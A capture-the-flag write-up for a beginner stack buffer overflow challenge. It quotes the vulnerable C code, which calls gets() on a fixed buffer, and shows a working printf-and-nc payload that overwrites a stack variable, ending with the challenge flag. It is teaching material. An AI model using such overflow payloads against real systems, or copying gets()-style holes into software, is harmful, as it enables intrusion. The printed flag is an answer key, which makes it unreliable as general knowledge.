 # Simple bof
## Description
Want to learn the hacker's secret? Try to smash this buffer!

You need guidance? Look no further than to [Mr. Liveoverflow](https://old.liveoverflow.com/binary_hacking/protostar/stack0.html). He puts out nice videos you should look if you haven't already

`nc thekidofarcrania.com 35235`
## Hints
(None)
## Solution
1. The `gets` vulnerability is pointed out in the source code.
```c
void vuln() {
  char padding[16];
  char buff[32];
  int notsecret = 0xffffff00;
  int secret = 0xdeadbeef;

  memset(buff, 0, sizeof(buff)); // Zero-out the buffer.
  memset(padding, 0xFF, sizeof(padding)); // Zero-out the padding.

  // Initializes the stack visualization. Don't worry about it!
  init_visualize(buff); 

  // Prints out the stack before modification
  visualize(buff);

  printf("Input some text: ");
  gets(buff); // This is a vulnerable call!

  // Prints out the stack after modification
  visualize(buff); 

  // Check if secret has changed.
  if (secret == 0x67616c66) {
    puts("You did it! Congratuations!");
    print_flag(); // Print out the flag. You deserve it.
    return;
  } else if (notsecret != 0xffffff00) {
    puts("Uhmm... maybe you overflowed too much. Try deleting a few characters.");
  } else if (secret != 0xdeadbeef) {
    puts("Wow you overflowed the secret value! Now try controlling the value of it!");
  } else {
    puts("Maybe you haven't overflowed enough characters? Try again?");
  }

  exit(0);
}
```
2. Run the program and it's obvious we must overflow 48 bytes to then subsequently input the correct secret.
```console
% nc thekidofarcrania.com 35235

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED CORRECT secret
0xffa86538 | 00 00 00 00 00 00 00 00 |
0xffa86540 | 00 00 00 00 00 00 00 00 |
0xffa86548 | 00 00 00 00 00 00 00 00 |
0xffa86550 | 00 00 00 00 00 00 00 00 |
0xffa86558 | ff ff ff ff ff ff ff ff |
0xffa86560 | ff ff ff ff ff ff ff ff |
0xffa86568 | ef be ad de 00 ff ff ff |
0xffa86570 | c0 c5 ed f7 84 af 5c 56 |
0xffa86578 | 88 65 a8 ff 11 8b 5c 56 |
0xffa86580 | a0 65 a8 ff 00 00 00 00 |

Input some text:
```
3. The correct secret is `0x67616c66`.
```console
% printf "aaaaaaaabbbbbbbbccccccccddddddddeeeeeeeeffffffff\x66\x6c\x61\x67\n" | nc thekidofarcrania.com 35235

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED CORRECT secret
0xfff94998 | 00 00 00 00 00 00 00 00 |
0xfff949a0 | 00 00 00 00 00 00 00 00 |
0xfff949a8 | 00 00 00 00 00 00 00 00 |
0xfff949b0 | 00 00 00 00 00 00 00 00 |
0xfff949b8 | ff ff ff ff ff ff ff ff |
0xfff949c0 | ff ff ff ff ff ff ff ff |
0xfff949c8 | ef be ad de 00 ff ff ff |
0xfff949d0 | c0 b5 f2 f7 84 5f 5b 56 |
0xfff949d8 | e8 49 f9 ff 11 3b 5b 56 |
0xfff949e0 | 00 4a f9 ff 00 00 00 00 |

Input some text: 
Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED CORRECT secret
0xfff94998 | 61 61 61 61 61 61 61 61 |
0xfff949a0 | 62 62 62 62 62 62 62 62 |
0xfff949a8 | 63 63 63 63 63 63 63 63 |
0xfff949b0 | 64 64 64 64 64 64 64 64 |
0xfff949b8 | 65 65 65 65 65 65 65 65 |
0xfff949c0 | 66 66 66 66 66 66 66 66 |
0xfff949c8 | 66 6c 61 67 00 ff ff ff |
0xfff949d0 | c0 b5 f2 f7 84 5f 5b 56 |
0xfff949d8 | e8 49 f9 ff 11 3b 5b 56 |
0xfff949e0 | 00 4a f9 ff 00 00 00 00 |

You did it! Congratuations!
CTFlearn{buffer_0verflows_4re_c00l!}
```
